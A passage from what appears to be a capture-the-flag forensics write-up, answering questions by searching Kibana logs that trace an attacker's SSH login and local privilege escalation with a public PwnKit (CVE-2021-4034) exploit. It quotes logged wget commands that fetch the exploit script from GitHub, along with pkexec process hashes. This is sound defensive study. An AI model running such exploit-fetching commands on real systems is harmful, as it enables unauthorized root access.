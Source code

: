 ```
system.auth.ssh.event: "Invalid" 
```

And finally:

```
system.auth.ssh.event: "Accepted" 
```

After I add in the "user.name" column, there's multiple rows, but only one username that appears here.

**Q13: After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo?**


```
user.name: "salem" AND process.command_line: wget*
```


| Time                       | user.name | process.command_line                                                                 |
| -------------------------- | --------- | ------------------------------------------------------------------------------------ |
| Feb 2, 2022 @ 17:44:55.022 | salem     | wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py |
| Feb 2, 2022 @ 17:44:54.561 | salem     | wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py |


**Q14: After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash?**


```
user.name: "salem" AND process.command_line: "python3 CVE-2021-4034.py" 
```


| Time                       | user.name | process.pid | process.command_line     |
| -------------------------- | --------- | ----------- | ------------------------ |
| Feb 2, 2022 @ 17:45:06.410 | salem     | 3003        | python3 CVE-2021-4034.py |
| Feb 2, 2022 @ 17:45:06.528 | salem     | 3004        | python3 CVE-2021-4034.py |


```
process.name.caseless: "pkexec"
```


| Time                       | user.name | process.pid | process.hash.md5                 |
| -------------------------- | --------- | ----------- | -------------------------------- |
| Feb 2, 2022 @ 17:45:06.558 | root      | 3003        | 3a4ad518e9e404a6bad3d39dfebaf2f6 |
| Feb 2, 2022 @ 17:45:06.586 | root      | 3003        | 3a4ad518e9e404a6bad3d39dfebaf2f6 |
| Feb 3, 2022 @ 01:59:34.578 | root      | 3927        | 3d5b347ac0f858be29070c090c53d62f |
| Feb 3, 2022 @ 01:59:34.598 | root      | 3927        | 3d5b347ac0f858be29070c090c53d62f |


**Q15: Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?**
